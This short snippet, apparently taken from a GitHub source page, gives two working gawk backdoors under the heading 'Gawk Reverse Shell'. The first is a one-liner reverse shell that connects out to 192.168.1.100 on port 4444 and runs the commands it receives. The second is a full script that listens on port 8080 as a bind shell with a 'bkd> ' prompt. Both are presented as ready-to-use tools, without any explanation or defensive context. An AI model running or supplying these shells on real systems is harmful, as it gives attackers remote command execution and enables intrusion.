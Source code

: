 #Gawk Reverse Shell  
Gawk one liner rev shell by @dmfroberson:  
gawk 'BEGIN {P=4444;S="> ";H="192.168.1.100";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'  
#  
#!/usr/bin/gawk -f  
BEGIN {  
        Port    =       8080  
        Prompt  =       "bkd> "  
  
        Service = "/inet/tcp/" Port "/0/0"  
        while (1) {  
                do {  
                        printf Prompt |& Service  
                        Service |& getline cmd  
                        if (cmd) {  
                                while ((cmd |& getline) > 0)  
                                        print $0 |& Service  
                                close(cmd)  
                        }  
                } while (cmd != "exit")  
                close(Service)  
        }  
}
